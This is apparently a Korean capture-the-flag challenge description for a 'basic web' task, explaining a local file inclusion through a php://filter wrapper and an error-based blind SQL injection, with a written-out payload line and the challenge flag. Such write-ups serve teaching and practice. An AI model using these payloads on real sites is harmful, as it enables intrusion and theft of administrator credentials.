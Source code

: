 power of xx 2017

제작 : 문시우
문제명 : basic web
난이도 : 하
분야 : 웹
서버 환경 : apache, php5, mysql

설명 : lfi + sqli (error based blind insert injection)
?p= 파라미터에서 lfi 취약점이 발생한다. php wrapper를 이용해 소스를 얻을 수 있다.
ex : ?p=php://filter/convert.base64-encode/resource=config

소스를 얻고 소스를 분석하여 sql injection 을 수행하면된다. (send.htm 에서 취약점 발생)
sql injection 으로 어드민의 패스워드를 알아냈다면 config.htm에 있는 secret_key와 얻어낸 아이디/패스워드로
어드민 계정으로 로그인해서 adm1n.htm로 접근하면 플래그를 얻을 수 있다.

payload :
email=1&title=1\&contents=,if((select substr(password,1,1) from users where 1)='t', (select 1 union select 2), 2));#

exploit : ./exploit.py

플래그 : flag{s1mple_SQL_1n73ction_XD}
